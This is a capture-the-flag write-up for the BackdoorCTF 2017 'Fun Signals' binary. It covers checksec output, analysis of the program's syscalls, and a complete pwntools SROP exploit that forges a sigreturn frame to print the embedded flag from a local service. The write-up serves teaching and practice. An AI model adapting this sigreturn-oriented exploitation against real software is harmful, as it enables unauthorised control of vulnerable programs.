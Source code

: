 # BackdoorCTF 2017 Fun Signals

## Challenge File

[player_bin](./funsignals_player_bin)

## file + checksec

file:

```
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

Note that the binary is **statically linked**.

checksec:

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x10000000)
RWX:      Has RWX segments
```

There is no protection.

## Program Analysis

[Program Analysis](./program_analysis.png)

The binary is minimalist (no function name). Starting from the `__start` label, we find two `syscall` instructions which look suspicious. The first `syscall` invokes `read(0, $rsp, 0x400)` and the second `syscall` invokes `sigreturn()`. This is an obvious hint for SROP.

## Solution

There is a syscall instruction available at 0x10000015. The flag is inside the binary, so we can just forge a sigreturn frame that calls `write(1, &flag, 50)`. This process can be automated using the `SigreturnFrame()` module in Pwntools:

```python
frame = SigreturnFrame()
frame.rax = 1 # syscall number for write()
frame.rdi = 1 # stdout = 1
frame.rsi = 0x10000023 # the address of flag
frame.rdx = 50 # leak 50 bytes of data
frame.rip = 0x10000015 # the address of syscall
```

## Exploit

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./funsignals_player_bin")
context.arch = 'amd64'

def srop(rax, rdi, rsi, rdx, rip):
    frame = SigreturnFrame()
    frame.rax = rax # syscall number for write()
    frame.rdi = rdi # stdout=1
    frame.rsi = rsi # the address of flag
    frame.rdx = rdx # leak how many bytes of data
    frame.rip = rip # the address of syscall

    return frame

def exploit():
    # socat tcp4-listen:1337,reuseaddr,fork exec:./funsignals_player_bin
    r = remote('127.0.0.1', 1337)
    frame = srop(
    rax=constants.SYS_write,
    rdi=constants.STDOUT_FILENO,
    rsi=elf.sym['flag'],
    rdx=50,
    rip=elf.sym['syscall'],
)
    r.send(bytes(frame))
    print(r.readall())

if __name__ == "__main__":
    exploit()
```